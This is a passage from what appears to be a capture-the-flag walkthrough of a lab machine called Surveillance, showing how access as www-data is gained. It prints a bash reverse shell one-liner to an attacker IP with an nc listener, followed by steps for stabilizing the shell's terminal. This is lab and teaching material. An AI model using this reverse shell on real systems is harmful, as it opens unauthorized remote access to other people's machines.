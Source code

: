 # Access as www-data

Now i will establish a reverse shell by spawning a nc listener and executing the command `bash -c "bash -i >& /dev/tcp/<YOUR IP>/<YOUR PORT> 0>&1"`

![Shell](/assets/images/Surveillance/shell.png)

And now i will stabilize the tty for doing ctrl+c, ctrl+l, etc:

```plaintext
www-data@surveillance:~/html/craft/web$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@surveillance:~/html/craft/web$ ^Z
[1]  + 98485 suspended  nc -lvnp 443
❯ stty raw -echo;fg
[1]  + 98485 continued  nc -lvnp 443
                                    reset xterm
www-data@surveillance:~/html/craft/web$ export TERM=xterm
www-data@surveillance:~/html/craft/web$ export SHELL=bash
www-data@surveillance:~/html/craft/web$ stty rows <YOUR TERMINAL ROWS> columns <YOUR TERMINAL COLUMNS>
```

* ``script /dev/null -c bash``: Spawns a tty.
* ``ctrl+z``: puts the shell in background for later doing a treatment.
* ``stty raw -echo;fg``: give us the shell back again.
* ``reset xterm``: resets the terminal to give us the bash console.
* ``export TERM=xterm``: let us do ctrl+l to clean the terminal.
* ``export SHELL=bash``: specifies the system that we are using a bash console.
* ``stty rows <YOUR ROWS> columns <YOUR COLUMNS>``: establishes the size of the current full terminal window, you can view the adequate running stty size on your machine.
